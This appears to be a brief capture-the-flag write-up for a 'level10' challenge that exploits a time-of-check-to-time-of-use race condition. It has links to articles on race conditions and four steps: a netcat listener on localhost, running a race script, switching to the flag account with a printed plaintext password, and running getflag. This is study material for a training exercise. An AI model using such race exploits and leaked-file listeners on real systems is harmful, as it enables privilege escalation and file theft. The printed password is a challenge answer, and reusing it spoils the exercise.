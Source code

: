 ### Documentation
[TOCTOU](https://medium.com/@schogini/toctou-time-of-check-and-time-of-use-a-demonstration-and-mitigation-609c999042cb)

[Race condition](https://defuse.ca/race-conditions-in-web-applications.htm)

### External
```
BASH  race
```

### Process
1. `./connect level09 nc -lk 127.0.0.1 6969`

2. `./send level10 race`

3. `./connect level09 ./race`

4. `su flag10` pass: woupa2yuojeeaaed06riuj63c
   ```bash
   getflag
   ```